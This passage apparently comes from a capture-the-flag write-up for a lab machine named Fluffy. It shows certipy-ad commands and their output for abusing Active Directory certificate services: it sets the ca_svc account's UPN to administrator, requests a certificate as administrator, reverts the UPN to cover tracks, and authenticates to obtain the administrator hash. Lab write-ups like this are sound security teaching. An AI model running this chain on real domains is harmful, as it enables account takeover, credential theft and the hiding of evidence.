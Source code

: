 Next we change the `UPN` to the account we want to impersonate. In this case it'll be `administrator@fluffy.htb`
```bash
certipy-ad account -u 'ca_svc@fluffy.htb' -hashes '<HASH_REDACTED>' -dc-ip 10.10.11.69 -user 'ca_svc' -upn 'administrator' update
```

```bash
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```

Now we can request a certificate for the `administrator` user!
```bash
export KRB5CCNAME=ca_svc.ccache
```

```bash
sync-ad certipy-ad req -k -dc-ip '10.10.11.69' -target 'dc01.fluffy.htb' -ca 'FLUFFY-DC01-CA' -template 'User'
```

```bash
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 18
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

We have the `administrator` certificate so let's cover our tracks and revert the `ca_svc` `UPN` back to the original
```bash
certipy-ad account -u 'ca_svc@fluffy.htb' -hashes '<HASH_REDACTED>' -dc-ip 10.10.11.69 -user 'ca_svc' -upn 'ca_svc' update
```

```bash
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc
[*] Successfully updated 'ca_svc'
```

Using our `administrator.pfx` certificate we can obtain the `administrator`'s hash
```bash
sync-ad certipy-ad auth -dc-ip '10.10.11.69' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
```
